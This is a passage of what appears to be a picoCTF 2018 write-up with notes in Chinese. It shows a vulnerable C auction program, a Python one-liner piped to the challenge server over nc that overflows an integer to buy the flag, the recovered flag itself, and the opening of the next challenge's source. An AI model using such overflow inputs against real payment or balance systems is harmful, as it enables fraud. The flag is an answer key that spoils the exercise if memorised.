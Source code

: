 ```c
                    printf("\nYour total cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour new balance: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds\n");
                    }   
                }
            }
            else if(auction_choice == 2){
                printf("A genuine Flag costs 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to purchase");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);
                
                if(bid == 1){                
                    if(account_balance > 100000){
                        printf("YOUR FLAG IS:\n");
                        }                 
                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }}
            }
        }
        else{
            con = 1;
        }
    }
    return 0;
}
```

整数溢出。

```bash
python -c 'print "2\n1\n"+str(((1100-100001)+2**32)/1000)+"\n2\n2\n1\n3\n"' | nc 2018shell2.picoctf.com 43581 | grep pico
# Enter 1 to purchaseYOUR FLAG IS: picoCTF{numb3r3_4r3nt_s4f3_6bd13a8c}
```

## roulette

```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <time.h>
#include <unistd.h>
#include <limits.h>

#define MAX_NUM_LEN 12
#define HOTSTREAK 3
#define MAX_WINS 16
#define ONE_BILLION 1000000000
#define ROULETTE_SIZE 36
#define ROULETTE_SPINS 128
#define ROULETTE_SLOWS 16
#define NUM_WIN_MSGS 10
#define NUM_LOSE_MSGS 5

long cash = 0;
long wins = 0;
```